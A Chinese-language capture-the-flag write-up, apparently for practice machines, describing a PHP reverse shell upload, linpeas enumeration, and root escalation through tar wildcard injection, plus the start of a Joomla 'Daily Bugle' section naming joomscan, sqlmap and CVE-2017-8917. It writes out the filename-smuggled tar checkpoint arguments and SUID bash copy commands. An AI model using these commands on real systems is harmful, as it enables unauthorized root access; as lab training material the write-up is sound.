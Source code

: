 下载了一个反弹shell的php 用python服务器当路径来传php文件

## 成功反弹shell

我们跑一个linpea的脚本 能获得很多我们需要的信息

![image.png](https://s2.loli.net/2025/04/19/q2PNleFYwMy85oa.png)


## tar提权 ​tar命令对通配符*的解析漏洞
首先我们先看一下这个backup的脚本作用 使用root权限的脚步

![image.png](https://s2.loli.net/2025/04/19/j32subRvBnS6HIl.png)

backups目录下有一个backup.sh文件，其内容和作用是--切换目录至/var/www/html 并将该目录下的所有内容归档为backup.tgz压缩文件，该tgz文件保存在backups目录下

tar命令可以利用一个名为–checkpoint的参数，该参数允许在每次归档 X 个文件时（X的默认值为10）显示“进度”消息， –checkpoint还可以与 –checkpoint-action 标志串联使用，

backup.sh脚本中使用的通配符* 将对 /var/www/html 目录中的所有文件和文件夹执行归档命令，因此我们可以通过在/var/www/html下添加 –checkpoint=1 文件（启用检查点功能）和 –checkpoint-action=exec=xxx 文件（指定要执行的操作，检查点值为1，每归档一个文件都执行指定操作），那么当 tar 处理到以上文件时，相关的文件名将会被有效地视为tar命令的参数--从而执行某些操作。

```
echo "cp /bin/bash /tmp/nroot && chmod +s /tmp/nroot" > newroot.sh

touch "/var/www/html/--checkpoint=1"
touch "/var/www/html/--checkpoint-action=exec=sh newroot.sh"

#–checkpoint-action=exec=xxx 文件（指定要执行的操作，检查点值为1，每归档一个文件都执行指定操作）
# 在检查点执行脚本 `newroot.sh`，即复制Bash并赋予SUID权限
```

然后到/tmp/ 运行/tmp/nroot -p 就能获得root权限

```
#切换到/tmp目录
cd /tmp
ls
/tmp/nroot -p
```


# Daily Bugle
## joomscan扫描
是个joomle的web网站 用joomscan扫描一下

扫描出了一个登录界面

## sqlmap或漏洞利用找出账户密码
### 漏洞利用 CVE-2017-8917
![image.png](https://s2.loli.net/2025/04/20/Z7AcNKfHYUCgoEn.png)
